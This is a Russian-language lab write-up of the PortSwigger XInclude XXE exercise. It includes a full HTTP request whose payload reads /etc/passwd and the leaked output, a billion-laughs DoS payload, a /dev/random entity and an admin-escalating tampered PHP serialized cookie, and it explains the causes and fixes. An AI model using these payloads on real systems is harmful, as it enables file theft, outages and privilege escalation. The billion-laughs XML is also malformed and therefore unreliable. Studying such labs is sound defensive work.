 ## XInclude in XXE attack

#### > В общих чертах: как работает, зачем нужен

XXE (или вставка внешних сущностей XML) - уязвимость, позволяющая злоумышленнику вмешиваться в обработку XML-данных веб-приложений (сайтов) при их отправке на сервер. Чаще всего используется для просмотра файлов в файловой системе сервера приложений, а так же других серверов или внешних систем, к которым приложение может получить доступ. Результат уязвимости можно посмотреть в ответе приложения (response). Так же возможно осуществление DoS атак (например уязвимость 'Denial-of-Service').

<i>Чтобы выполнить атаку <b>XInclude</b>, необходимо указать пространство имен XInclude и путь к файлу, содержимое которого требуется получить</i>

---

##### > Разберу по шагам пример того, как работает данная уязвимость

Открою ссылку на лабу из практической работы
> https://portswigger.net/web-security/xxe/lab-xinclude-attack

Нам дано:

- Есть некий сайт с товарами
- По товарам можно посмотреть детализацию (кнопка 1)
- В детализации можно проверить наличие товара в разных магазинах (кнопка 2)

Рассмотрю запрос по кнопке 2 (наличие товара в магазинах)

<b>Запрос 1</b>

~~~
POST /product/stock HTTP/1.1
Host: 0a9700f203ced1b4c026723800b50012.web-security-academy.net
Cookie: session=QZMMaj22B268131231nL1AmaboxdzxV
Origin: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net
Accept: */*
Referer: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 21

productId=2&storeId=1
~~~

В запросе, как минимум, 2 изменяемых параметра.
~~~
productId=2
storeId=1
~~~

Подставлю в значение параметр productId текст из [примера](https://gist.github.com/jakekarnes42/effe052f1095532cda84307024b3d512) к практической работе
~~~
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
~~~

Теперь текст <b>запроса 1</b> будет выглядеть так (все спец. символы из текста выше заменены кодами):

~~~
POST /product/stock HTTP/1.1
Host: 0a9700f203ced1b4c026723800b50012.web-security-academy.net
Cookie: session=QZMMaj22B268131231nL1AmaboxdzxV
Origin: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net
Accept: */*
Referer: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 21

productId=%3cfoo%20xmlns%3axi%3d%22http%3a%2f%2fwww%2ew3%2eorg%2f2001%2fXInclude%22%3e%3cxi%3ainclude%20parse%3d%22text%22%20href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22%2f%3e%3c%2ffoo%3e%20&storeId=1
~~~

Теперь выполню (отправлю на сервер) <b>запрос 1</b> и посмотрю ответ сервера (response):

Обычный удачный ответ от сервера выглядит так, но это не наш случай:

~~~
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 3

456
~~~

<b>Ответ сервера при атаке XInclude:</b>

~~~
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1279

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin"
~~~

Как видим, это содержимое файла <b>/etc/passwd</b>

---

##### > Причина возникновения уязвимости

Практически все уязвимости XXE возникают из-за того, что библиотека синтаксического анализа XML-приложения поддерживает потенциально опасные функции XML, которые приложению по сути не нужны или не предназначены для использования.
Самый простой и эффективный способ предотвратить атаки XXE — отключить эти функции.
Как правило, достаточно отключить разрешение внешних сущностей и отключить поддержку XInclude.
Обычно это можно сделать с помощью параметров конфигурации или программного переопределения поведения по умолчанию.

---

##### > "Отказ в обслуживании" (Denial-of-Service)

<b>Пример 1</b>
Пример атаки состоит из определения 10 сущностей, каждая из которых определяется как состоящая из 10 предыдущих сущностей, с документом, состоящим из одного экземпляра наибольшей сущности, которая расширяется до одного миллиарда копий первой сущности

[Описание атаки (wiki)](https://en.wikipedia.org/wiki/Billion_laughs_attack)

~~~
POST http://somesite.com/xml HTTP/1.1
<?xml version="1.0" ?>
<!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<foo>
  &lol9;
</foo>
~~~

![здесь могла быть картинка](https://i.stack.imgur.com/hYnmH.png)

<b>Пример 2</b>
Злоумышленник пытается вызвать отказ в обслуживании, используя потенциально бесконечный файл:

~~~
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
~~~


---
##### > Атаки на механизм сериализации/десериализации, приводящие к частичному или полному отказу в обслуживании

Небезопасная десериализация (Insecure Deserialization) - это уязвимость, при которой злоумышленник внедряет вредоносный объект в приложение при передаче сериализованных данных, что часто приводит к удаленному выполнению кода, обходу пути, повышению привилегий, обходу аутентификации и многому другому

[> Источник примеров](https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization.html)

<b>Пример 1</b>

Приложение React вызывает набор микросервисов Spring Boot. Программисты пылаись сделать свой код иммутабельным (неизменяемым), но вот решение что они придумали, заключалось в сериализации пользовательского состояния и передаче его с клиента на сервер с каждым запросом. Злоумышленник замечает сигнатуру объекта Java «R00» и использует инструмент Java Serial Killer для удаленного выполнения кода на сервере приложений

<b>Пример 2</b>
Форум PHP использует сериализацию объектов PHP для сохранения "super" файла cookie, содержащего идентификатор пользователя, роль, хэш пароля и другое состояние.

Форум на PHP использует сериализацию объектов PHP Java для создания супер cookie, a:4 содержащей ID пользователя, его роль, хеш пароля и другое состояние:

~~~
a:4:{i:0;i:132;i:1;s:7:"Mallory";i:2;s:4:"user"; i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
~~~

Злоумышленник изменяет сериализованный объект, чтобы предоставить себе права администратора:

~~~
a:4:{i:0;i:1;i:1;s:5:"Alice";i:2;s:5:"admin"; i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
~~~
